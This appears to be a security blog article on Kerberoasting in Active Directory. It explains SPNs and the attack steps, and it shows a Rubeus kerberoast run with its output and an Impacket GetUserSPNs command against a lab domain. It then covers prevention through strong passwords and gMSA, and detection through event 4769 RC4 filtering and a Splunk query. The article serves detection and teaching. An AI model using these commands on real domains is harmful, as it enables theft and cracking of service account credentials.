


import Callout from '@/components/Callout.astro'
import { Icon } from 'astro-icon/components'

## Introduction

In Active Directory, a **Service Principal Name (SPN)** is a unique service instance identifier. **Kerberos** uses SPNs for authentication to associate a service instance with a service logon
account, which allows a client application to request that the service authenticate an account even if the client does not have the account name. When a **Kerberos TGS** service ticket is asked for, it gets encrypted with the **service account's NTLM password hash**. The SPN format is usually as follows:

```shell
<service>/<host>:<port> or <service>/<fqdn>
```

**Kerberoasting** is a **post-exploitation attack** that attempts to exploit this behavior by obtaining a ticket and performing offline password cracking to open the ticket. If the ticket opens, then the candidate password that opened the ticket is the service account's password.

The success of this attack depends on the **strength of the service account's password**. Another factor that has some impact is the **encryption algorithm** used when the ticket is created, with the likely options being:

- **AES**
- **RC4**
- **DES**

There is a significant difference in the cracking speed between these three, as **AES** is slower to crack than the others. While security best practices recommend disabling **RC4** (and **DES**, if enabled for some reason), most environments do not.

The caveat is that not all application vendors have migrated to support **AES** (most but not all). By default, the ticket created by the **KDC** will be one with the most robust/highest encryption algorithm supported. However, attackers can **force a downgrade back to RC4**.

## Attack Path

The attacker's modus operandi is illustrated in the following diagram:

<div class="mx-auto"></div>

The way it works can be understood in detail as follows:

**Step 1. Gaining domain privileges (post-exploitation)**

> The attacker has a valid AD account (password/NTLM hash/ticket…) and can log in or run commands within the domain

**Step 2. Verify with KDC and obtain TGT**

> They log in with that account to request TGT from KDC (DC). TGT is used as an **"entrance ticket"** to request subsequent service tickets.

**Step 3. List SPNs and find target service accounts**

> In AD, they query to get a list of accounts with the servicePrincipalName (SPN) attribute (e.g., SQL/IIS). The target is usually service accounts with high privileges or weak passwords.

**Step 4. Request TGS for the selected SPN**

> For each target SPN, they send a request to the KDC: "Give me TGS for this service".

**Step 5. Extracting the appropriate hash from the ticket**

> The attacker obtains the TGS and extracts the data needed to crack the ticket and uses it for offline cracking. Once they have the password, they can log in as a service account and access the resources that account is authorized to use.

To obtain crackable tickets, we can use [Rubeus](https://github.com/GhostPack/Rubeus). When we run the tool with the kerberoast action without specifying a user, it will extract tickets for every user that has an SPN registered (this can easily be in the hundreds in large environments).

```powershell
controller\administrator@CONTROLLER-1 C:\Users\Administrator\Downloads>Rubeus.exe kerberoast /outfile:spn.txt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.5.0


[*] Action: Kerberoasting

[*] NOTICE: AES hashes will be returned for AES-enabled accounts.
[*]         Use /ticket:X or /tgtdeleg to force RC4_HMAC for these accounts.

[*] Searching the current domain for Kerberoastable users

[*] Total kerberoastable users : 2


[*] SamAccountName         : SQLService
[*] DistinguishedName      : CN=SQLService,CN=Users,DC=CONTROLLER,DC=local
[*] ServicePrincipalName   : CONTROLLER-1/SQLService.CONTROLLER.local:30111
[*] PwdLastSet             : 5/25/2020 10:28:26 PM
[*] Supported ETypes       : RC4_HMAC_DEFAULT
[*] Hash written to C:\Users\Administrator\Downloads\spn.txt


[*] SamAccountName         : HTTPService
[*] DistinguishedName      : CN=HTTPService,CN=Users,DC=CONTROLLER,DC=local
[*] ServicePrincipalName   : CONTROLLER-1/HTTPService.CONTROLLER.local:30222
[*] PwdLastSet             : 5/25/2020 10:39:17 PM
[*] Supported ETypes       : RC4_HMAC_DEFAULT
[*] Hash written to C:\Users\Administrator\Downloads\spn.txt

[*] Roasted hashes written to : C:\Users\Administrator\Downloads\spn.txt
```

Additionally, we can use the [Impacket](https://github.com/SecureAuthCorp/impacket/releases/tag/impacket_0_9_19) toolkit to carry out remote attacks.

```shell
sudo python3 GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip 10.80.135.68 -request
```

## Prevention

The success of this attack depends on the **strength of the service account's password**. While we should limit the number of accounts with SPNs and disable those no longer used/needed, we must ensure they have **strong passwords**. For any service that supports it, the password should be `100+` random characters (`127` being the maximum allowed in AD), which ensures that cracking the password is practically impossible.

Another solution is **gMSA ([Group Managed Service Account](https://learn.microsoft.com/en-us/windows-server/security/group-managed-service-accounts/group-managed-service-accounts-overview))** – this is a service account managed by Active Directory, offering increased security compared to traditional service accounts. **gMSA** is only permitted on designated servers (or groups of servers), preventing users from using the account elsewhere.

AD also automatically rotates the **gMSA** password periodically with a very long and random password, significantly reducing the risk of cracking. The limitation is that not all applications support **gMSA**, but it's advisable to prioritize using **gMSA** for new services and gradually replace older service accounts whenever possible.

## Detection

When a TGS is requested, an event log with **ID 4769** is generated. However, AD also generates the same event ID whenever a user attempts to connect to a service, which means that the volume of this event is **gigantic**, and relying on it alone is virtually impossible to use as a detection method. If we happen to be in an environment where all applications support AES and only AES tickets are generated, then it would be an excellent indicator to alert on event **ID 4769** .

If the ticket options is set for **RC4** , that is, if RC4 tickets are generated in the AD environment (which is not the default configuration), then we should alert and follow up on it. Here is what was logged when we requested the ticket to perform this attack.

Tools like **Rubeus** often request TGS in bulk for all accounts with SPNs, so it's possible to set up a rule to alert when a user or source machine generates an unusually **high number of TGS** in a short period. Therefore, it's advisable to group event **4769** by requesting user and by source machine/IP and create two separate rules to increase detection capabilities.

To detect kerberoast, we will look for event **ID 4769** that satisfies the following conditions:

- The **account name field** in the log does not end with `$`, meaning it is **not a machine account**.
- The **service name field** in the log does not end with `$`, meaning this is **not a machine account**.
- The **ticket encryption type field** has a value of `0x17`, which is **RC4**.

Here's an example of a log containing **signs of an attack**:

<div class="mx-auto"></div>

We can also use the following **splunk query** to detect **Kerberoast**.

```kql
Event.EventData.TicketEncryptionType="0x17" Event.System.EventID="4769" Event.EventData.ServiceName!="*$" | table Event.EventData.ServiceName,Event.EventData.TargetUserName,Event.EventData.IpAddress
```

## Reference

- **[HackTheBox - Kerberoasting Attack Detection](https://www.hackthebox.com/blog/kerberoasting-attack-detection)** - Comprehensive guide on identifying and detecting Kerberoasting attacks in production environments using log analysis and behavioral indicators.
- **[ADSecurity - Detecting Kerberoasting Activity](https://adsecurity.org/?p=3458)** - In-depth technical analysis of Kerberoasting detection methods, including Event ID 4769 analysis and advanced monitoring techniques for Active Directory security.
